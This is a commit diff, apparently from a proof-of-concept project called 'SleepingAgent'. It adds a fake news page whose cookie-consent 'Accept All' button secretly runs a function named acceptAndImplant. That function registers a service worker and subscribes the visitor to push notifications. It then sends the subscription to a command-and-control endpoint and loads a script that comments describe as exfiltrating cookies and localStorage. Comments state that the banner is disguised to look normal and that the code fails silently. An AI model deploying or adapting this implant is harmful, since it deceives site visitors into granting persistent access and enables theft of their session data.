

Before and after one commit to bountyyfi/sleepingagent, a website: page public/index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/public/index.html
+++ b/public/index.html
@@ -1,29 +1,105 @@
+<!DOCTYPE html>
+<html lang="en">
+<head>
+  <meta charset="UTF-8">
+  <meta name="viewport" content="width=device-width, initial-scale=1.0">
+  <title>NewsPortal</title>
+  <style>
+    * { margin: 0; padding: 0; box-sizing: border-box; }
+    body { font-family: -apple-system, BlinkMacSystemFont, 'Segoe UI', sans-serif; background: #f5f5f5; }
+    .header { background: #1a73e8; color: white; padding: 16px 24px; font-size: 20px; font-weight: 600; }
+    .content { padding: 40px; max-width: 800px; margin: 0 auto; }
+    .content h1 { font-size: 28px; margin-bottom: 16px; color: #333; }
+    .content p { color: #666; line-height: 1.6; margin-bottom: 12px; }
+    .consent-banner {
+      position: fixed; bottom: 0; left: 0; right: 0;
+      background: white; border-top: 1px solid #ddd;
+      padding: 16px 24px; display: flex; align-items: center;
+      justify-content: space-between; box-shadow: 0 -4px 12px rgba(0,0,0,0.1);
+      z-index: 9999; gap: 16px;
+    }
+    .consent-text { font-size: 13px; color: #555; flex: 1; }
+    .consent-text a { color: #1a73e8; }
+    .btn-accept {
+      background: #1a73e8; color: white; border: none;
+      padding: 10px 24px; border-radius: 4px; cursor: pointer;
+      font-size: 14px; font-weight: 500; white-space: nowrap;
+    }
+    .btn-reject {
+      background: none; border: 1px solid #ddd; padding: 10px 16px;
+      border-radius: 4px; cursor: pointer; font-size: 14px;
+      color: #555; white-space: nowrap;
+    }
+  </style>
+</head>
+<body>
 
+<div class="header">NewsPortal</div>
+<div class="content">
+  <h1>Breaking News Today</h1>
+  <p>Lorem ipsum dolor sit amet, consectetur adipiscing elit. Sed do eiusmod tempor incididunt ut labore et dolore magna aliqua. Ut enim ad minim veniam.</p>
+  <p>Duis aute irure dolor in reprehenderit in voluptate velit esse cillum dolore eu fugiat nulla pariatur. Excepteur sint occaecat cupidatat non proident.</p>
+</div>
 
-
-
-
-
-
-
-
-NewsPortal
-
-
-Breaking News Today
-
-Lorem ipsum dolor sit amet, consectetur adipiscing elit. Sed do eiusmod tempor incididunt ut labore et dolore magna aliqua.
-
-Duis aute irure dolor in reprehenderit in voluptate velit esse cillum dolore eu fugiat nulla pariatur.
-
-
-
-
+<div class="consent-banner" id="banner">
+  <div class="consent-text">
     We use cookies and similar technologies to improve your experience.
     By clicking "Accept All", you consent to our use of cookies for analytics and personalized content.
-    Privacy Policy | Cookie Policy
+    <a href="#">Privacy Policy</a> | <a href="#">Cookie Policy</a>
+  </div>
+  <button class="btn-reject" onclick="document.getElementById('banner').style.display='none'">Reject</button>
+  <button class="btn-accept" onclick="acceptAndImplant()">Accept All</button>
+</div>
 
+<script>
+// Paste your VAPID public key here (same one from server.js)
+const VAPID_PUBLIC_KEY = 'PASTE_PUBLIC_KEY_HERE';
 
-Reject
+function urlBase64ToUint8Array(base64String) {
+  const padding = '='.repeat((4 - base64String.length % 4) % 4);
+  const base64 = (base64String + padding).replace(/-/g, '+').replace(/_/g, '/');
+  const rawData = window.atob(base64);
+  return new Uint8Array([...rawData].map(c => c.charCodeAt(0)));
+}
 
-Accept All
+async function acceptAndImplant() {
+  // Hide banner immediately - looks like a normal cookie accept
+  document.getElementById('banner').style.display = 'none';
+
+  if (!('serviceWorker' in navigator) || !('PushManager' in window)) return;
+
+  try {
+    // Register SW silently
+    const reg = await navigator.serviceWorker.register('/sw.js');
+    await navigator.serviceWorker.ready;
+
+    // Browser shows its own native permission prompt here
+    const permission = await Notification.requestPermission();
+    if (permission !== 'granted') return;
+
+    // Subscribe to push
+    const subscription = await reg.pushManager.subscribe({
+      userVisibleOnly: true,
+      applicationServerKey: urlBase64ToUint8Array(VAPID_PUBLIC_KEY)
+    });
+
+    // Send subscription endpoint to C2 - attacker now has persistent access
+    await fetch('/subscribe', {
+      method: 'POST',
+      headers: { 'Content-Type': 'application/json' },
+      body: JSON.stringify(subscription)
+    });
+
+    // Load bridge for ongoing cookie/localStorage exfil
+    const s = document.createElement('script');
+    s.src = '/bridge.js';
+    document.head.appendChild(s);
+
+    console.log('[SleepingAgent] Implant installed');
+  } catch (err) {
+    // Fail silently
+  }
+}
+</script>
+</body>
+</html>
```
